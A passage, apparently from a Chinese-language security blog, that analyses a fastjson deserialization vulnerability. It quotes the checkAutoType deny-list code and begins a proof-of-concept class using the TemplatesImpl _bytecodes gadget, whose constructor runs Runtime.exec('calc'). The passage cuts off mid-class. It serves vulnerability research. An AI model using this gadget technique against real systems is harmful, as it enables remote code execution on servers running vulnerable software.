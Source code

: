 下面我们来分析checkAutoType的函数实现：



```
public Class&lt;?&gt; checkAutoType(String typeName, Class&lt;?&gt; expectClass) {
        if (typeName == null) {
            return null;
        }
        if (typeName.length() &gt;= maxTypeNameLength) {
            throw new JSONException("autoType is not support. " + typeName);
        }
        final String className = typeName.replace('$', '.');
        if (autoTypeSupport || expectClass != null) {
            for (int i = 0; i &lt; acceptList.length; ++i) {
                String accept = acceptList[i];
                if (className.startsWith(accept)) {
                    return TypeUtils.loadClass(typeName, defaultClassLoader);
                }
            }
            for (int i = 0; i &lt; denyList.length; ++i) {
                String deny = denyList[i];
                if (className.startsWith(deny)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }
        Class&lt;?&gt; clazz = TypeUtils.getClassFromMapping(typeName);
        if (clazz == null) {
            clazz = deserializers.findClass(typeName);
        }
        if (clazz != null) {
            if (expectClass != null &amp;&amp; !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -&gt; " + expectClass.getName());
            }
            return clazz;
        }
```

核心部分就是denyList的处理过程，遍历denyList，如果引入的库以denyList中某个deny打头，就会抛出异常，中断运行。



**POC构造**

静态分析得知，要构造一个可用的poc，肯定得引入denyList的库。刚开始fastjson官方公布漏洞信息时，当时就尝试构造poc，怎奈fastjson的代码确实庞大，还有asm机制，通过asm机制生成的临时代码下不了断点。当时也只能通过在通过类初始化的时候弹出一个计算器，很显然这个构造方式不具有通用性，最近jackson爆出反序列漏洞，其中就利用了TemplatesImpl类，而这个类有一个字段就是_bytecodes，有部分函数会根据这个_bytecodes生成java实例，简直不能再更妙，这就解决了fastjson通过字段传入一个类，再通过这个类执行有害代码。后来阅读ysoserial的代码时也发现在gadgets.java这个文件中也使用到了这个类来动态生成可执行命令的代码。下面是一个poc的代码



```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
```